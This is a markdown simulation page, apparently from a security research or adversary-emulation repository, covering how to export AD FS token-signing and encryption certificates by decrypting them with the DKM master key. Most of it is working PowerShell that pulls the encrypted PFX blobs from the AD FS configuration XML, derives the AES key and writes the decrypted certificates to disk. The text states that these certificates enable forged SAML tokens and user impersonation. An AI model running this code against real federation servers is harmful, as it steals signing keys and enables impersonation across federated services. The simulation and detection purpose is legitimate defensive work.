

# Export Active Directory Federation Services (AD FS) Certificates as PFX Files With DKM Master Key

Federation servers require token-signing certificates to prevent attackers from altering or counterfeiting security tokens to gain unauthorized access to Federated resources. The AD FS certificates (token signing and decryption) are stored in the AD FS database configuration, and they are encrypted using Distributed Key Manager (DKM) APIs. DKM is a client-side functionality that uses a set of secret keys to encrypt and decrypt information. Only members of a specific security group in Active Directory Domain Services (AD DS) can access those keys in order to decrypt the data that is encrypted by DKM.

when the primary AD FS farm is configured, an AD container (AD FS DKM container) is created in the domain controller and the DKM master key is stored as an attribute of an AD contact object located inside of the container. The AD FS DKM master key can then be used to derive a symmetric key and decrypt AD FS certificates.

A threat actor could use the `AD FS configuration settings` to extract sensitive information such as AD FS certificates (encrypted) and get the path to the AD FS DKM container in the domain controller. The `AD FS DKM master key` can then be retrieved from the AD container and used to decrypt AD FS certificate. Finally, the AD FS token signing certificate can be used to sign SAML tokens and impersonate users in a federated environment.

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Output](#output)
* [Variations](#variations)

## Preconditions

* Input:
    * AD FS Configuration Settings
    * AD FS DKM Master Key

## Simulation Steps

### Extract AD FS Token Signing Certificate

```PowerShell
[xml]$xml=$settings
$encTokenSigningPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalSigningTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encTokenSigningPfx)
$encPfxBytes | Format-Hex
```



### Extract AD FS Encryption Certificate

```PowerShell
[xml]$xml=$settings
$encEncryptionPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalEncryptionTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encEncryptionPfx)
$encPfxBytes | Format-Hex
```


### Decrypt Certificates

```PowerShell
$key = '<ADFS-DKM-KEY>'

$certs = [ordered]@{}
$certs["signing"] =    $encTokenSigningPfx
$certs["encryption"] = $encEncryptionPfx

# Iterate over certificate objets
foreach ($certType in $certs.Keys) {
    $encPfxBytes=[System.Convert]::FromBase64String($certs[$certType])
    $guid=        $encPfxBytes[8..25]  # 18 bytes
    $KDF_oid=     $encPfxBytes[26..36] # 11 bytes
    $MAC_oid=     $encPfxBytes[37..47] # 11 byte
    $enc_oid=     $encPfxBytes[48..58] # 11 bytes
    $nonce=       $encPfxBytes[59..92] # 34 bytes
    $iv=          $encPfxBytes[93..110] # 18 bytes
    $ciphertext = $encPfxBytes[115..$($encPfxBytes.Length-33)]
    $cipherMAC =  $encPfxBytes[$($encPfxBytes.Length-32)..$($encPfxBytes.Length)]

    # Create the label
    $label = $enc_oid + $MAC_oid

    # Derive the decryption key using (almost) standard NIST SP 800-108. The last bit array should be the size of the key in bits, but MS is using bytes (?)
    # As the key size is only 16 bytes (128 bits), no need to loop.
    $hmac = New-Object System.Security.Cryptography.HMACSHA256 -ArgumentList @(,$key)
    $hmacOutput = $hmac.ComputeHash( @(0x00,0x00,0x00,0x01) + $label + @(0x00) + $nonce[2..33] + @(0x00,0x00,0x00,0x30) )
    $decryptionKey = $hmacOutput[0..15]
    Write-Verbose "Decryption key:"
    Write-Verbose "$($decryptionKey|Format-Hex)"
    # Create a decryptor and decrypt
    $Crypto = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
    $Crypto.Mode="CBC"
    $Crypto.KeySize = 128
    $Crypto.BlockSize = 128
    $Crypto.Padding = "None"
    $Crypto.Key = $decryptionKey
    $Crypto.IV = $iv[2..17]
    $decryptor = $Crypto.CreateDecryptor()

    # Create a memory stream and write the cipher text to it through CryptoStream
    $ms = New-Object System.IO.MemoryStream
    $cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
    $cs.Write($ciphertext,0,$ciphertext.Count)
    $cs.Close()
    $cs.Dispose()

    # Get the results
    $decryptedBytes = $ms.ToArray()
    $ms.Close()
    $ms.Dispose()

    $CertificatePath = "C:\ProgramData\ADFS_$($certType)_$(get-date -format yyyy-MM-ddTHHmmssff).pfx"
    $decryptedBytes | Set-Content $CertificatePath -Encoding Byte

    Get-item $CertificatePath
}
```

## Output
* AD FS Encryption Certificate
* AD FS Token Signing Certificate

## Variations


## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
* [Token-Signing Certificates | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/design/token-signing-certificates#:~:text=%20A%20token-signing%20certificate%20must%20meet%20the%20following,in%20the%20personal%20store%20of%20the...%20More%20)